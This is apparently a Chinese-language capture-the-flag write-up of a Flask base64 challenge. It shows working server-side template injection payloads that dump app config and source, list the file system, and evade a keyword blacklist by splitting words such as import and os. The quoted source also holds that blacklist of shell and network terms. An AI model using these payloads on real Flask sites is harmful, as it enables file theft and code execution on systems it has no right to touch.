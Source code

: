 ![[Pasted image 20221221165258.png|500]]

---
首页长这样

![[Pasted image 20221221165318.png|700]]


```
/decode
```

![[Pasted image 20221221165420.png|700]]

```
/hint
```

![[Pasted image 20221221165508.png|300]]

---
先是扫目录，无果

编码页面无计可施，尝试在解码页面制造错误

尝试对`123`进行解码

跳转到了`Werkzeug`的调试页面

![[Pasted image 20221221165800.png]]

获取到了部分源码

大体上是`flask`的`SSTI`

![[Pasted image 20221221170818.png|300]]

![[Pasted image 20221221171012.png]]

```python
{{config}}
```
> 结果 ： &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;

emmm，`secret_key`看着没什么用，似乎没有什么有价值的信息

---
`url_for`可以使用，直接套出源码先
```python
{{url_for.__globals__['__builtins__']['open']('app.py','r').read()}}
```
> 结果 ： from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(\_\_name\_\_) app.config\[&#39;SECRET_KEY&#39;\] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= \[DataRequired()\]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = \[&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;\*&#34;,&#34;?&#34;\] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=\[&#39;GET&#39;\]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=\[&#39;POST&#39;,&#39;GET&#39;\]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=\[&#39;GET&#39;\]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if \_\_name\_\_ == &#39;\_\_main\_\_&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)

```python
def waf(str):
	black_list = ["flag","os","system","popen","import","eval","chr","request", "subprocess","commands","socket","hex","base64","*","?"]
	for x in black_list:
		if x in str.lower():
			return 1
```

`waf`是直接的字符串匹配

直接拼接绕过

```python
{{url_for.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}
```
>[&#39;bin&#39;, &#39;boot&#39;, &#39;dev&#39;, &#39;etc&#39;, &#39;home&#39;, &#39;lib&#39;, &#39;lib64&#39;, &#39;media&#39;, &#39;mnt&#39;, &#39;opt&#39;, &#39;proc&#39;, &#39;root&#39;, &#39;run&#39;, &#39;sbin&#39;, &#39;srv&#39;, &#39;sys&#39;, &#39;tmp&#39;, &#39;usr&#39;, &#39;var&#39;, &#39;this_is_the_flag.txt&#39;, &#39;.dockerenv&#39;, &#39;app&#39;\]

```python
{{url_for.__globals__['__builtins__']['open']('/this_is_the_fl'+'ag.txt','r').read()}}
```

![[Pasted image 20221221194819.png]]

#Web #python #flask #SSTI #function #代码审计 